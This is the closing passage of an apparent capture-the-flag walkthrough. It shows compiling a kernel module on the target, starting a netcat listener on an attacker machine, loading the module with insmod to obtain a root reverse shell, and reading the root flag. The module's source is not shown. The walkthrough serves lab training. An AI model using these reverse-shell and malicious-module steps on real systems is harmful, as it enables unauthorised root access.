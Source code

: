 
## 🧨 Step 11 – Compile and Load the Module

### Compile on the target:

```bash
make
```

### Set up a listener on our attacker machine:

```bash
nc -lvnp 8888
```

### Run the module on the target:

```bash
sudo /sbin/insmod cyberavengers.ko
```

🎉 we now have a **root reverse shell** on our listener!

---

## 🏁 Final Step – Read the Root Flag

```bash
cat /root/flag.txt
```

---

## ✅ Challenge Complete

